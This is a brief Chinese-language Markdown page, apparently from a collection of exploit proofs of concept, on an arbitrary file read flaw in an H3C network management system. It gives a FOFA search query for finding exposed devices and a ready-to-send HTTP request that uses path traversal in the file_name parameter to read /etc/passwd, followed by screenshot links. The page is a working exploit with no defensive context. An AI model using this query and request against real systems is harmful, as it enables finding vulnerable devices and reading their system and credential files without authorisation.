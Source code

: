 
## H3C网络管理系统任意文件读取漏洞

## fofa
```
body="webui/js/jquerylib/jquery-1.7.2.min.js"
```

## poc
```
GET /webui/?file_name=../../../../../etc/passwd&g=sys_dia_data_down HTTP/1.1

```
![image](../../images/e5bc6b46-2181-4d89-bab2-b6c1e2db7bca.png)

![image](../../images/d94b6fad-82fa-49d5-b236-c3a148380aca.png)
